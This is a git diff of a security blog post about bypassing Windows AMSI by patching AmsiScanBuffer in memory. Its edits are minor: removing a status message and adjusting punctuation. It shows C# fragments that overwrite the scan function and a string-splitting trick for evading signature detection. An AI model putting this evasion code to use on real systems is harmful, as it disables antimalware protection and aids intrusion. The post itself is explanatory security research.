

Clarifications

diff --git a/2018/10/amsiscanbuffer-bypass/index.html b/2018/10/amsiscanbuffer-bypass/index.html
@@ -422,7 +422,6 @@ namespace Bypass
             Marshal.Copy(Patch, 0, unmanagedPointer, 3);
             MoveMemory(AmsiScanBufferPtr + 0x001b, unmanagedPointer, 3);
 
-            Console.WriteLine(&quot;AmsiScanBuffer patch has been applied.&quot;);
             return 0;
         }
     }
@@ -496,13 +495,11 @@ Add-Type [...]
 
 <p>Of course, this is relatively straight forward to fix.</p>
 
-<p><code>IntPtr AmsiScanBufferPtr = GetProcAddress(TargetDLL, &quot;AmsiScanBuffer&quot;);</code> becomes <code>IntPtr ASBPtr = GetProcAddress(TargetDLL, &quot;Amsi&quot; + &quot;Scan&quot; + &quot;Buffer&quot;);</code></p>
+<p><code>IntPtr AmsiScanBufferPtr = GetProcAddress(TargetDLL, &quot;AmsiScanBuffer&quot;);</code> becomes <code>IntPtr ASBPtr = GetProcAddress(TargetDLL, &quot;Amsi&quot; + &quot;Scan&quot; + &quot;Buffer&quot;);</code>.</p>
 
-<p><code>VirtualProtect(AmsiScanBufferPtr, (UIntPtr) 5, 0x40, out uint Zero);</code> becomes <code>VirtualProtect(ASBPtr, dwSize, 0x40, out Zero);</code></p>
+<p><code>VirtualProtect(AmsiScanBufferPtr, (UIntPtr) 5, 0x40, out uint Zero);</code> becomes <code>VirtualProtect(ASBPtr, dwSize, 0x40, out Zero);</code>.</p>
 
-<p><code>MoveMemory(AmsiScanBufferPtr + 0x001b, unmanagedPointer, 3);</code> becomes <code>MoveMemory(ASBPtr + 0x001b, unmanagedPointer, 3);</code></p>
-
-<p>and I will just remove <code>Console.WriteLine(&quot;AmsiScanBuffer patch has been applied.&quot;);</code>.</p>
+<p><code>MoveMemory(AmsiScanBufferPtr + 0x001b, unmanagedPointer, 3);</code> becomes <code>MoveMemory(ASBPtr + 0x001b, unmanagedPointer, 3);</code>.</p>
 
 
 <figure>
